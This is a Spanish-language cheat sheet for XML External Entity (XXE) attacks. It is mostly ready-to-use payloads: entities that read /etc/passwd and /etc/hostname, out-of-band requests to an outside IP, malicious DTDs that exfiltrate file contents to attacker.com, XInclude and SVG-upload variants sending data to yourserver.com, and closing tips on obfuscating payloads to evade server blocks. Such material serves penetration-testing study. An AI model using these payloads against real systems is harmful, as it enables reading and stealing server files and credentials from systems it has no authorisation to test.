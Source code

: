 ```yaml
---

### 💥 **XXE (XML External Entity) Attack Cheat Sheet** 💥

---
```


#### 📝 **¿Qué es XXE?**  
El ataque **XXE (XML External Entity)** aprovecha vulnerabilidades en el procesamiento de entidades XML en aplicaciones web.  
Permite al atacante:  
- 🗃️ **Leer archivos locales.**  
- 🌐 **Realizar solicitudes HTTP desde el servidor.**  
- 🛠️ **Realizar ataques SSRF, DoS o RCE.**  

---

## ⚙️ **Tipos de Entidades en XML**

| Tipo                   | Descripción                                                                     |
| ---------------------- | ------------------------------------------------------------------------------- |
| Genéricas              | Representan cualquier tipo de información dentro del XML.                       |
| Externas (XXE)         | Referencian recursos externos, como archivos locales o URLs.                    |
| Predefinidas           | Entidades comunes usadas en XML (&lt;, &gt;, &amp;).                            |
| Entidades Paramétricas | Utilizan el símbolo `%` y se declaran en el **DTD (Document Type Definition)**. |
|                        |                                                                                 |

---

## 📝 **Ejemplo de Estructura XML**
```xml
<?xml version="1.0" encoding="UTF-8"?> <!-- Declaración XML -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> <!-- DTD (Document Type Definition) -->

<root>
    <name>fran</name>
    <tel>5454545as</tel>
    <email>fran@fran.com</email>
    <password>fran123</password>
</root>
```

---

## 💣 **Normal XXE (Local File Disclosure)**

### 📂 **Payloads:**
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
```

---

## 🌐 **Out Of Band XXE (OOB)**
- Estas inyecciones son ciegas (blind), donde el servidor realiza solicitudes HTTP hacia un servidor externo.

### 📝 **Payloads:**
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe; ]>
```

---

## 💾 **Malicious DTD Files**

### 📝 **Malicious DTD 1 - Base64 Encoding:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
%exfil;
```

### 📝 **Malicious DTD 2 - Direct File Read:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
```

### 📝 **Malicious DTD 3 - Error-Based XXE:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; error SYSTEM 'file://idontexist/%file;'>">
```

---

## 🛑 **XInclude Injection**

### 📂 **Payloads:**
**XInclude Local File:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="file:///etc/passwd" parse="text"/>
</foo>
```

**XInclude OOB:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="http://yourserver.com/?data=file:///etc/passwd" parse="text"/>
</foo>
```

---

## 🖼️ **XXE via Image File Upload**

### 📝 **Normal XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY file SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&file;</text>
</svg>
```

### 📝 **OOB XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % send SYSTEM "http://yourserver.com/?data=%file;">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&send;</text>
</svg>
```

---

## 🔍 **XXE by Repurposing Local DTD**

### 📝 **Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % myFile SYSTEM "file:///usr/share/xml/catalog"> %myFile; ]>
```

---

## 📝 **Consejos Útiles:**
- 📌 **Siempre invoca el nombre de la entidad dentro del XML para ejecutar el payload.**  
- 🚀 **Si el ataque falla, intenta eliminar el `%` o probar variantes de codificación.**  
- 🛑 **Si el servidor bloquea ciertas entidades, intenta ofuscar los caracteres.**  

---
